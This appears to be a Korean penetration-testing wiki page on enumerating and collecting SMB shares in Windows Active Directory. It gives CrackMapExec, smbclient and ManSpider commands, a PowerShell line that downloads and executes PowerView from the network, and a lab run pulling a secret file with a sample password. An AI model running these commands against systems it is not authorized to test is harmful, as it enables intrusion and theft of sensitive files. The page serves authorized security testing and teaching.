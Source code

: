 # SMB 쉐어 수집

SMB는 Server Message Block 프로토콜로서, 윈도우 액티브 디렉토리에서 파일과 프린터를 공유하는데 가장 많이 사용되는 프로토콜이다. 요새는 파일 공유 같은 경우는 웹 기반의 SaaS 로 많이 넘어갔지만, 아직도 많은 네트워크에서 쉐어를 이용한다.&#x20;

공격자들은 SMB 쉐어에 관련된 정보와 쉐어 안의 파일을 정보 수집을 통해 얻어낼 수 있다.&#x20;

### 도메인 유저 맥락&#x20;

도메인 유저 계정을 하나라도 장악한 공격자는 도메인 내 도메인 유저에게 공개되어 있는 쉐어를 탐색할 수 있다. 쉐어의 읽기/쓰기 권한이 잘못 설정되어 있는 경우, 공격자는 쉐어에 접근해 추가 공격에 용이한 파일을 얻을 수 있다. 혹은 민감한 정보가 담긴 파일이 있는 쉐어가 네트워크 안 모든 유저에게 공개되어 있는 경우도 많다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
CrackMapExec을 이용해 찾아낼 수 있다.&#x20;

```
cme smb <target(s)> -u <user> -p <passwd> -d <domain> --shares 
```
{% endtab %}

{% tab title="윈도우" %}
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1');
find-domainshare -checkshareaccess
```
{% endtab %}
{% endtabs %}

예를 들어 다음과 같은 도메인 쉐어를 찾았다고 가정해보자.&#x20;

```
└─# cme smb 192.168.40.150 -u low -p 'Password123!' -d choi.local --shares
               
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\low:Password123! 
SMB         192.168.40.150  445    DC01             [+] Enumerated shares
SMB         192.168.40.150  445    DC01             Share           Permissions     Remark
SMB         192.168.40.150  445    DC01             -----           -----------     ------
< ... >  
SMB         192.168.40.150  445    DC01             share           READ,WRITE      Share for deploying files from the DC       Logon server share 
```

도메인 컨트롤러의 "share" 라는 쉐어가 존재하는데, 일반적인 "low" 도메인 유저가 이에 읽기/쓰기 권한을 갖고 있다. smbclient 를 이용해 파일을 가져올 수 있다.&#x20;

```
└─# smbclient -U CHOI/low%'Password123!' \\\\192.168.40.150\\share

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jul  4 22:24:07 2022
  ..                                  D        0  Mon Jul  4 22:24:07 2022
  secret.txt                          A       18  Mon Jul  4 22:24:07 2022

                15644159 blocks of size 4096. 10228069 blocks available
smb: \> get secret.txt
getting file \secret.txt of size 18 as secret.txt (17.6 KiloBytes/sec) (average 17.6 KiloBytes/sec)
```

### Anonymous/Null Session Share&#x20;

SMB 쉐어의 권한이 잘못 설정되어 Anonymous 나 Null Session 으로 접근 가능한 쉐어들은 도메인 유저 맥락이 없어도, 아무런 계정 정보가 없어도 접근이 가능하다.&#x20;

```
cme smb <target(s)> -u '' -p ''  --shares
cme smb <target(s)> -u 'a' -p '' --shares 
```



### 대량 SMB 정보 수집&#x20;

모의해킹을 진행하다보면 3만대 5만대의 호스트로부터 SMB 쉐어 파일을 가져와야할 때가 있다. 이렇듯 대량으로 SMB 파일을 다운받기 위해서는 ManSpider 라는 툴을 이용한다. Manspider 는 특정 파일 확장자, 파일 컨텐츠 등을 화이트리스트/블랙리스트 한 뒤, 파일을 다운 받는 툴이다. 몇천대, 몇만대 호스트를 상대로 실행해도 상당히 빠른 속도로 SMB 파일들을 수집한다.&#x20;

```
manspider.py --threads 128 <ip-ranges> -u <user> -p <pass> -c password passwd confidential
```

### 레퍼런스&#x20;

{% embed url="https://github.com/blacklanternsecurity/MANSPIDER" %}

